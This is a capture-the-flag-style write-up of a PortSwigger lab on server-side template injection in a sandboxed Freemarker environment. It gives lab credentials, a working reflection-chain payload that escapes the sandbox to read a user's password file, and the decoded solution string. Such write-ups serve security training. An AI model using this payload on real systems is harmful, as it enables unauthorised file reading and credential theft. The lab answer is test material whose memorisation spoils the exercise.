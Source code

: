 # Server-side template injection in a sandboxed environment

## Description

[This lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment) uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox.

## Reproduction and proof of concept

1. Log in with `content-manager:C0nt3ntM4n4g3r` and edit one of the product description templates. Notice that you have access to the product object.
2. Load the JavaDoc for the Object class to find methods that should be available on all objects. Confirm that you can execute `${object.getClass()}` using the product object.
3. [Explore the documentation](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html) to find a sequence of method invocations that grant access to a class with a static method that lets you read a file, such as:

```text
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
    
4. Enter this payload in one of the templates and save. The output will contain the contents of the file as decimal ASCII code points.

```text
112 98 103 120 118 53 110 109 104 54 51 48 112 107 103 113 100 100 107 107
```

5. [Convert the returned bytes to ASCII](https://onlineasciitools.com/convert-bytes-to-ascii).

```text
pbgxv5nmh630pkgqddkk
```

6. Click the **Submit solution** button and submit this string to solve the lab.

## Exploitability

An attacker will need to break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.
